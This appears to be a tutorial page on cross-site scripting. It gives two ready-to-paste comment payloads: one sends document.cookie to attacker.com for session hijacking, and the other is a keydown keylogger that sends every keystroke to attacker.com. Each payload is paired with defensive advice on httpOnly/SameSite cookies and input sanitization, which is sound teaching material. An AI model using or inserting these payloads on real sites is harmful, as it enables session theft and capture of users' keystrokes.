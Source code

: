 In this attack, we'll demonstrate:

    Stealing user cookies (session hijacking).
    Injecting a keylogger to capture keystrokes.

🚀 1️⃣ Attack Scenario

Imagine a forum, comment section, or chat app where an attacker injects a malicious script that:

    Steals authentication cookies (Session Hijacking).
    Logs all keystrokes and sends them to an attacker-controlled server.

🔥 Step 1: Stealing User Cookies (Session Hijacking)

If an application stores session tokens in cookies, an attacker can inject this XSS payload:
🔴 XSS Payload for Cookie Theft

Enter the following comment:

<script>
    fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>

💡 How It Works

    The script reads document.cookie, which may contain session tokens.
    It sends the cookie data to http://attacker.com/steal, controlled by the attacker.

🛡️ How to Protect Against This

✅ Use httpOnly and SameSite cookies to prevent JavaScript access:

res.cookie("session", sessionToken, {
    httpOnly: true, // Prevents JavaScript from accessing it
    secure: true, // Ensures cookie is sent only over HTTPS
    sameSite: "Strict", // Blocks cross-site cookie access
});

🔥 Step 2: Injecting a Keylogger

A more advanced XSS attack can capture everything a user types.
🔴 XSS Payload for Keylogging

Enter this into the comment field:

<script>
    document.addEventListener("keydown", function(event) {
        fetch("http://attacker.com/log?key=" + event.key);
    });
</script>

💡 How It Works

    This script listens for every key press (keydown).
    Each keystroke is sent to http://attacker.com/log, where an attacker logs the data.

🛡️ How to Protect Against This

✅ Sanitize user input with sanitize-html (backend):

const sanitizeHtml = require("sanitize-html");
const cleanText = sanitizeHtml(userInput);
